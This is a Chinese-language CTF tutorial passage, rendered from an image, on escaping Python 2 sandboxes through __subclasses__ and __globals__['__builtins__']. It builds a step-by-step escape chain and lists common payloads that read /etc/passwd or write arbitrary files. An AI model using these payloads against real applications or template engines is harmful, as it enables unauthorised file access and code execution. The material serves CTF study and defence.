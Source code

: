 

```plain
获取基本类后，继续向下获取基本类(object)的子类
object.__subclasses__()
Plain Text
```



```plain
找到重载过的__init__类(在获取初始化属性后，带wrapper的说明没有重载，寻找不带warpper的)所谓重载，就是多个相同函数名的函数，根据传入的参数个数，参数类型而执行不同的功能。所以函数重载实质上是为了解决编程中参数可变不统一的问题。然后就是重载了那还怎么用嘛。
''.__class__.__mro__[2].__subclasses__()[99].__init__//对99个实例化<slot wrapper '__init__' of 'object' objects>''.__class__.__mro__[2].__subclasses__()[59].__init__<unbound method WarningMessage.__init__>
Plain Text
```



```plain
查看其引用__builtins__builtins即是引用，Python程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于builtins却不用导入，它在任何模块都直接可见，所以这里直接调用引用的模块
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']
Plain Text
```






```plain
这里会返回dict类型，寻找keys中可用函数，直接调用即可，使用keys中的file以实现读取文件的功能
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('F://GetFlag.txt').read()
Plain Text
```



至此一条逃逸链就构造了出来。


在比赛中其实有些函数还是蛮难找的，不知道该用哪些类所以会有一些常用的payload:


都是py2的：


读写文件：


```plain
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()    #将read() 修改为 write() 即为写文件
Plain Text
```



```plain
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read() #将read() 修改为 write() 即为写文件
Plain Text
```
